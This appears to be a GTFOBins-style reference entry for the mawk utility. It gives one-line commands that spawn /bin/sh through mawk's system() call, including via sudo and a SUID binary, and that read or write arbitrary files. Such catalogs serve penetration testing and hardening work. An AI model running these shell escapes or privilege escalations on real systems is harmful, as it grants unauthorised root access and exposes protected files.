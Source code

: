 functions:
  shell:
    - code: mawk 'BEGIN {system("/bin/sh")}'
  file-write:
    - code: |
        LFILE=file_to_write
        mawk -v LFILE=$LFILE 'BEGIN { print "DATA" > LFILE }'
  file-read:
    - code: |
        LFILE=file_to_read
        mawk '//' "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./mawk '//' "$LFILE"
  sudo:
    - code: sudo mawk 'BEGIN {system("/bin/sh")}'
  limited-suid:
    - code: ./mawk 'BEGIN {system("/bin/sh")}'
---
